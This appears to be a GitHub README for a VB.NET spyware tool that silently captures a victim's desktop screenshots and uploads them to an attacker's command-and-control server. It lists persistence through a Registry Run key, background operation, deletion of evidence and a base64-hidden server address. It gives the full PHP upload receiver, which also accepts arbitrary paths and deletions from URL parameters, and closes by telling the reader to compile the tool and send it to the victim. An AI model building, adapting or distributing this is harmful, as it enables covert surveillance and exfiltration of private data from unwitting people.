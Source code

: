 <p align="center">
  <img src="https://i.ibb.co/B4WbGyq/Screenshot-11.png">  
</p>
<p align="center">
<b> Silent Screenshot Capture | Post Exploitation Tool | VB.NET </b>
</p>
<p align="center">
 A simple payload to take the screenshot of victims desktop and upload it to the C&C.
</p>

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs
 - Deletes the screenshot from disk after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new [PHP](https://en.wikipedia.org/wiki/PHP) file and put below code in it
```
<?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
```
 - Open the project in Visual Studio and the edit below variable in source code 
```
Dim server As String = BaseDecode1("your server address here in base64 encoded") 
```
 - and edit this variable below as well
```
Dim php As String = "yourphpfilename.php?" & "folder="
```
 - Just compile it and send it to the victim thats all !!
